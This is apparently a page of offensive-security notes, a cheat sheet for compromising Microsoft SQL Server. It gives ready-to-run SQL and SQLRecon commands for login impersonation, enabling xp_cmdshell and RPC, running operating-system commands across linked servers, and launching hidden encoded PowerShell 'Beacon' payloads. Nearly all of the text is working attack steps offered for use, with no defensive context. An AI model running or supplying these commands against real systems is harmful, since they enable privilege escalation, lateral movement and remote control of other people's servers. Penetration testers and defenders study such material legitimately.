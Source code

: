 *Raw Queries*
Check Impersonation
`SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';`
`SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;`
Query
`EXECUTE AS login = '[user]'; SELECT SYSTEM_USER;`
Check xp_cmdshell
`EXECUTE AS login = '[user]'; SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';`
Enable xp_cmdshell
`EXECUTE AS login = '[user]'; sp_configure 'Show Advanced Options', 1; RECONFIGURE;`
`EXECUTE AS login = '[user]'; sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
Command
`EXECUTE AS login = '[user]'; EXEC xp_cmdshell 'whoami';`
Beacon
[[#MS SQL PowerShell Payload]]
`EXECUTE AS login = '[user]'; EXEC xp_cmdshell 'powershell -w hidden -enc [base64]';`
##### Over Link
Check Links
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:links`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lwhoami /l:[target]`
Query
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lquery /l:[target] /c:"SELECT @@SERVERNAME"`
Check xp_cmdshell
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lquery /l:[target] /c:"SELECT value FROM sys.configurations WHERE name = ''xp_cmdshell'';"`
Check RPC
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:checkrpc`
Enable RPC
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:enablerpc /rhost:[target]`
Enable xp_cmdshell (RPC)
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lenablexp /l:[target]`
Command
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lxpcmd /l:[target] /c:"[command]"`
Beacon
[[#MS SQL PowerShell Payload]]
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:lxpcmd /l:[target] /c:"powershell -w hidden -enc [base64]"`

*Raw Queries*
Check Links
`SELECT srvname, srvproduct, rpcout FROM master..sysservers;`
Query
`SELECT * FROM OPENQUERY("[target (srvname)]", 'SELECT @@SERVERNAME');`
Check xp_cmdshell
`SELECT * FROM OPENQUERY("[target]", 'SELECT value FROM sys.configurations WHERE name = ''xp_cmdshell''');`
Enable xp_cmdshell (RPC)
`EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target]`
`EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target]`
Command
`SELECT * FROM OPENQUERY("[target]", 'SELECT @@SERVERNAME; exec xp_cmdshell ''whoami''')`
**Note:** when using **xp_cmdshell** with **OpenQuery**, prepend a dummy query before it or else it won’t work.
Beacon
[[#MS SQL PowerShell Payload]]
`SELECT * FROM OPENQUERY("[target]", 'SELECT @@SERVERNAME; exec xp_cmdshell ''powershell -w hidden -enc [base64]''')`